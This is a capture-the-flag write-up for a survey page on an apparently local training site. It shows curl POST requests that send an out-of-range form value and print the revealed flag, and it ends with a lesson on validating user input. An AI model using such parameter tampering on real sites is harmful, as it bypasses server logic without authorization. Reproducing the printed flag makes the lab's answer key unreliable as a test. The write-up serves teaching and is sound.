 # http://192.168.99.100/?page=survey

here we notice that each row of the "***Make your choice***" table is an html *form* element,

the form *action* is set to `#` which is self, and the form method is set to `post`

the form has several inputs:


 **input** `name` *sujet*, `type` *hidden*, value range from `2` to `6`
   
 **input** `name` *valeur*, `type` *select*, value range from `1` to `10`

<br />

the "valeur" element has a `onchange` javascript attribute, which submits the form

if we submit a post request with the `valeur` greater than 10, the page shows the flag:

```
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=survey' --data 'sujet=2&valeur=10'  -o before.html
e1z2r10p4% curl -s 'http://192.168.99.100/index.php?page=survey' --data 'sujet=2&valeur=110'  -o after.html
e1z2r10p4% diff before.html after.html 
37c37
< <div style="margin-top:-75px">
---
> <center><h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <div style="margin-top:-75px">

```

**`The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa`**


**moral of the story:**
when variables are passed in the url (html get request) it is very simple to change them directly in the browser,
with a post request its slightly more complex but can still lead to undesired behavior, so user data must be sanitized/validated
